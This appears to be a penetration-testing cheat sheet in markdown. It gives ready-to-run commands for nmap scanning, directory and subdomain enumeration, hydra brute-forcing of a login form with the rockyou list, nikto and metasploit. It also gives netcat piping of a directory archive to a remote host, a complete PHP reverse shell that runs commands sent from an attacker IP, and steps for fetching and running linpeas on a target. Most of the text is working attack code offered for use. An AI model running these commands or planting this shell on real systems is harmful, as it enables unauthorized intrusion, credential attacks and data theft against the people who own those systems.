 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 1000 -oN nmap_output.txt example.com
```

## Directory enumeration with `dirb`:
```bash
dirb http://example.com /usr/share/wordlists/dirb/common.txt -o dirb_output.txt
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://example.com -H "Host: FUZZ.example.com" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Login brute-force with `hydra`:
### Syntax 1
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt http-post-form://example.com/login"&username=^USER^&password=^PASS^:F=Bad"
```
### Syntax 2
```bash
sudo hydra -v -V -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt example.com http-post-form "/login:username=^USER^&password=^PASS^=:F=Bad"
```

## Web app scan with `nikto`:
```bash
nikto -h example.com -p 80 -o nikto_output.txt
```

## Exploit with metasploit
```bash
msfconsole

show

search <exploit_name>

use exploit/linux/http/exploit_name

set RHOSTS example.com
set RPORT 80

exploit
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc example.com 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

# Archive
### Compress:
```bash
tar -czvf archive.tar.gz /path/to/directory_or_file
```
### Extract:
```bash
tar -xzvf archive.tar.gz -C /path/to/extract
```

## PHP reverse shell
```bash
nc -lvnp 4444
```
```php
<?php
$ip = 'x.x.x.x'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

## Download and serve `linpeas`
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
